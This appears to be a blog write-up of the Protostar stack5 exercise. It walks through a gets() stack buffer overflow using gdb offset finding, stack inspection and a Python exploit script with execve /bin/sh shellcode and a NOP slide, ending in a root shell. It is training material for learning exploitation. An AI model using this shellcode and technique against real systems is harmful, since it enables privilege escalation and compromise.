 ```yaml
---
title: Protostar Writeup - stack5
updated: 2018-08-07 15:30
---
```


## Protostar - stack5

This is one of my favorite challenges. We actually get to do something useful here. Our task is to execute shellcode.
Shellcode is nothing but a sequence of bytes, which when executed does some task. Note that this only works if the stack is executable.
This is true for older machines, however newer ones mitigate this vulnerability my making the stack non executable. We don't have to worry much about that.
So here's the code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];

    gets(buffer);
}
```

Nothing useful overhere, except the fact that we have an exploitable `gets()` function. So our choice of attack is a buffer overflow. We know from the previous post, that we can overflow into the EIP. Thus controlling the codeflow.
Once we can do that, it's just a matter of redirecting control to our 'injected' shell code. First things first. Let's get the offset of the EIP. I'm using pwntools to generate the offset string.

```shell
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Breakpoint 1, main (argc=1633771893, argv=0x61616176) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
in stack5/stack5.c
(gdb) c
Continuing.

    Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
    ```

    Finding `0x61616174` in the offset string we find the location of the EIP at 76 bytes. So our address to our shellcode goes after 76 bytes of padding.
    Before we proceed let's take a look at the stack and figure out where to place our shell code.

    ```shell
    $ python -c "print 'A' * 76 + 'ABCD'" > /tmp/exploit
    $ gdb stack5
    (gdb) break *0x080483d9
    Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
    (gdb) r < /tmp/exploit
    Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

    Breakpoint 1, main (argc=0, argv=0xbffff854) at stack5/stack5.c:11
    11	stack5/stack5.c: No such file or directory.
    in stack5/stack5.c
    (gdb) c
    Continuing.

    Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
    (gdb) x/24wx $esp
    0xbffff7b0:	0x00000000	0xbffff854	0xbffff85c	0xb7fe1848
    0xbffff7c0:	0xbffff810	0xffffffff	0xb7ffeff4	0x08048232
    0xbffff7d0:	0x00000001	0xbffff810	0xb7ff0626	0xb7fffab0
    0xbffff7e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
    0xbffff7f0:	0xbffff828	0x87ea710a	0xadbd671a	0x00000000
    0xbffff800:	0x00000000	0x00000000	0x00000001	0x08048310
    ```
    We can probably choose anyone of these addresses, let's try the first one `0x0xbffff7b0`.
    Below is the exploit script code.

    ```python
    import struct

    offset = 'A' * 76
    address = struct.pack("I", 0xbffff7b0)
    shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

    def go():
        print offset + address + shellcode

        go()
    ```

    Now let's run this and see what happens.

    ```shell
    $ python /tmp/exploit.py | ./stack5
    ```

    Oh oh!. Something's not right, we're getting an illegal instruction error. Let's take a look at it in the debugger.
    We find something even more funny here, it works perfectly fine in the debugger.

    ```shell
    $ python /tmp/exploit.py > /tmp/exploit
    $ gdb stack5
    (gdb) set disassembly-flavor intel
    (gdb) disass main
    Dump of assembler code for function main:
    0x080483c4 <main+0>:	push   ebp
    0x080483c5 <main+1>:	mov    ebp,esp
    0x080483c7 <main+3>:	and    esp,0xfffffff0
    0x080483ca <main+6>:	sub    esp,0x50
    0x080483cd <main+9>:	lea    eax,[esp+0x10]
    0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
    0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
    0x080483d9 <main+21>:	leave
    0x080483da <main+22>:	ret
    End of assembler dump.
    (gdb) break *0x080483d9
    Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
    (gdb) r < /tmp/exploit
    Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

    Breakpoint 1, main (argc=795371626, argv=0x68732f2f) at stack5/stack5.c:11
    11	stack5/stack5.c: No such file or directory.
    in stack5/stack5.c
    (gdb) c
    Continuing.
    Executing new program: /bin/dash

    Program exited normally.
    ```

    This actually bugged me for quite some time. I found a solution to this in the reddit thread [here](https://www.reddit.com/r/LiveOverflow/comments/8pr5ox/problem_on_protostar_stack5/).
    What happens is that when you execute a program, the OS even pushes the environment variables onto the stack.
    Now when we run the executable outside gdb, the environment is different, and hence the shellcode gets misaligned.
    To counter this we can use something called as a NOP slide. NOP is short for no instruction, which will basically do nothing.
    The idea is that you set your EIP to an arbitrary address which you hope will land on the NOP slide.
    We place our shellcode after the NOP slide, so when the NOPs are done executing, our shellcode is executed.
    There is a little trick to choosing this arbitrary address and length of NOP slides, they should be a multiple of 4, else your shellcode will be misaligned.
    This is what is happening to us outside gdb, our shellcode is getting misaligned, so let's fix it.
    The below exploit is with a little trial and error, but you should get the idea.

    ```python
    import struct

    offset = 'A' * 76
    address = struct.pack("I", 0xbffff7b0 + 16)
    nopslide = '\x90' * 32
    shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

    def go():
        print offset + address + nopslide + shellcode

        go()
    ```

    Let's run it:

    ```shell
    $ python /tmp/exploit.py | ./stack5
    $
    ```

    Ok, so no error this time. This begs the question, how do we use the shell, since it exits as soon as it is created.
    The reason is that as the input stream closes the shell also exits. So we need a way to hold the input stream.
    After digging around a little I came across this stackoverflow [post](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection).

    So using one of those techniques...

    ```shell
    $ (python /tmp/exploit.py; cat) | ./stack5
    id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
    whoami
    root
    ```

    Owned! We finally managed to get a shell with root privilages. I hope this gives you a taste of privilage escalation. This was by far the most fun exercise I've done. Hope you enjoyed this too :)

### Sites

    [Protostar](https://exploit-exercises.com/protostar/)
    [Phrack](http://phrack.org/issues/49/14.html)

